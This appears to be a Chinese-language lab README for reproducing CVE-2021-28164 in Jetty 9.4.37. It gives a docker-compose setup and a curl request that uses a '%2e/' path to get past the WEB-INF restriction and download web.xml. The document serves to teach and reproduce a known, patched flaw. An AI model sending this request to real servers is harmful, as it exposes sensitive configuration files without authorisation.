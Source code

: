 # Jetty WEB-INF 敏感信息泄露漏洞（CVE-2021-28164）

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 漏洞环境

执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![](1.png)

使用`%2e/`来绕过限制下载web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
